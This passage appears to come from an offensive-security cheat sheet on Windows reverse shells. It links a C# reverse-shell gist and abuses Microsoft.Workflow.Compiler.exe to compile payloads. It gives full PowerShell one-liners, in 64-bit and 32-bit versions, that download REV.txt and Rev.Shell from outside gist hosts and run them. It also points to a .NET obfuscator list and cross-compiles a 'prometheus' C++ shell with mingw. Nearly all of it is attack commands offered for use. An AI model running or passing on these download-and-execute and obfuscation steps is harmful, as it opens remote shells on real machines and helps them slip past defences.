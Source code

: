 ```csharp
                }
                catch (Exception err) { }
            }
        }

	}
}
```

[https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple\_Rev\_Shell.cs](https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple\_Rev\_Shell.cs)

### C# using compiler

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```

[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Automatic download and execution:

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```

{% embed url="https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f" %}

C# obfuscators list: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++

```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
